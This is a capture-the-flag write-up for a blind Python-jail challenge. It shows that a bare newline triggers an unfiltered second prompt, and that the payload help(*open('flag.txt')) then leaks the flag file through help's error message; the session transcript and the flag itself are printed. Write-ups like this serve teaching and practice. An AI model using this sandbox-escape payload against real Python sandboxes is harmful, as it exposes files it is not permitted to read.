

# unnecessary

### Challenge:
##### pyjails are too guessy and unnecessary! so i made an even guessier one.

##### Links: [nc chal.nbctf.com 31381](nc chal.nbctf.com 31381)

### Solution:

So we have a blind pyjail, it asks for our input then outputs "guess harder" if it gets filtered, by fuzzing around i found that by sending just a newline we can trigger an error in the program and get a 2nd chance to give our input, this time however our input is pretty much unfiltered so we can send a typical payload to get the flag:

```bash
$ nc chal.nbctf.com 31381
pyjails really shouldn't be guessy, but this one is.
>>> 
invalid syntax (<string>, line 0)
i kinda feel bad, so i'll let you have another try.
>>> help(*open('flag.txt'))
No Python documentation found for 'nbctf{th15_15_4ll_th3_fr0g5_f4ul7}'.
Use help() to get the interactive help utility.
Use help(str) for help on the str class.
```

Flag: ```nbctf{th15_15_4ll_th3_fr0g5_f4ul7}```